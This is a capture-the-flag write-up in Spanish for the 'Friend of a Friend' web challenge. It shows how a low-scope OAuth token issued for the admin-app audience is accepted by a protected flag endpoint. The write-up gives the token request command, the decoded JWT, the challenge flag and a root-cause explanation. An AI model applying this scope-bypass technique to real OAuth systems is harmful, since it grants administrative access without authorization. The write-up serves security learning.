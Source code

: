 # Challenge: Friend of a Friend

**Web 300-1 Friend of a Friend**: https://pointeroverflowctf.com/challenges/

![Challenge Overview](./resources/ctf-image-1.PNG)

## Resumen
Este desafío presenta una aplicación web simulada en desarrollo que consta de dos aplicaciones web que comparten el mismo servidor de autenticación. Una es un cliente de "amigos/perfil", la otra protege una API de administración. El objetivo es explotar una vulnerabilidad en el enforcement de scopes de OAuth para obtener la flag desde la API de administración.

**URL del CTF**: https://web300-1.pointeroverflowctf.com/index.html

## Datos proporcionados
- URL de la página del CTF: https://pointeroverflowctf.com/challenges/
- Aplicación web con flujo OAuth
- API endpoints disponibles:
  - `GET /health` → ok
  - `GET /` → página de información general
  - `POST /oauth/token` → endpoint de autenticación OAuth
  - `GET /api/flag` → endpoint protegido con la flag

## Análisis inicial

Al acceder a la página principal, se presenta información sobre las características de la aplicación y un botón "Try the demo flow" que permite probar el flujo de OAuth.

![Main Page](./resources/ctf-image-2.PNG)

## Exploración del flujo OAuth

Al hacer clic en "Try the demo flow", se muestra un ejemplo de cómo utilizar el endpoint OAuth:

![Demo Flow](./resources/ctf-image-3.PNG)

```bash
curl -sX POST http://127.0.0.1:10810/oauth/token \
  -d code=Exgs-bAfOrXmCCDQxCCr9OJNm4-84D82 -d client_id=admin-app | jq -r .access_token
```

Este comando revela información crucial:
- El `state`: `tptzc59fhdi `
- Existe un código de autorización válido: `Exgs-bAfOrXmCCDQxCCr9OJNm4-84D82`
- El `client_id` es: `admin-app`
- El endpoint OAuth está en: `/oauth/token`

## Explotación

### Paso 1: Obtener el Access Token

Utilizando Postman, realizamos una petición POST al endpoint `/oauth/token` con los parámetros observados:

![Token Request](./resources/ctf-image-4.PNG)

**Response:**
```json
{
    "access_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJodHRwczovL2ZyaWVuZC5leGFtcGxlL29hdXRoIiwic3ViIjoidXNlcjEyMyIsImF1ZCI6ImFkbWluLWFwcCIsInNjb3BlIjoiZnJpZW5kczpyZWFkIHByb2ZpbGU6cmVhZCIsInR5cCI6ImFjY2Vzc190b2tlbiIsImlhdCI6MTc1OTYxNzY0MiwiZXhwIjoxNzU5NjE4MjQyfQ.jyGXIkRkodARysdU7y3h44orTKnXlrWrPqxYDl9AFaw",
    "aud": "admin-app",
    "expires_in": 600,
    "iss": "https://friend.example/oauth",
    "scope": "friends:read profile:read",
    "token_type": "Bearer"
}
```

### Análisis del Token JWT

El token JWT decodificado revela:
```json
{
  "iss": "https://friend.example/oauth",
  "sub": "user123",
  "aud": "admin-app",
  "scope": "friends:read profile:read",
  "typ": "access_token",
  "iat": 1759617642,
  "exp": 1759618242
}
```

**Observación crítica**: El token está destinado a la `admin-app` (`aud: "admin-app"`) pero solo tiene scopes limitados (`friends:read profile:read`). Esto sugiere una falla en el enforcement de scopes.

### Paso 2: Acceder a la API protegida

Utilizando el access token obtenido, realizamos una petición GET al endpoint `/api/flag`:

![Flag Request](./resources/ctf-image-5.PNG)

**Response:**
```json
{
    "flag": "poctf{uwsp_4_fr13nd_1n_n33d_15_4_fr13nd_1nd33d}"
}
```

## Vulnerabilidad identificada

La vulnerabilidad radica en una **falla en el enforcement de scopes OAuth**:

1. **Problema**: Aunque el token solo tiene scopes `friends:read` y `profile:read`, la API de administración (`/api/flag`) acepta el token sin validar adecuadamente que los scopes sean suficientes para acceder a recursos administrativos.

2. **Causa**: La aplicación verifica que el token esté destinado a la `admin-app` (campo `aud`) pero no valida que los scopes incluyan permisos administrativos como `admin:read` o similar.

3. **Impacto**: Esto permite que un usuario con scopes limitados acceda a endpoints administrativos protegidos.

## Resultado

**Flag obtenida**: `poctf{uwsp_4_fr13nd_1n_n33d_15_4_fr13nd_1nd33d}`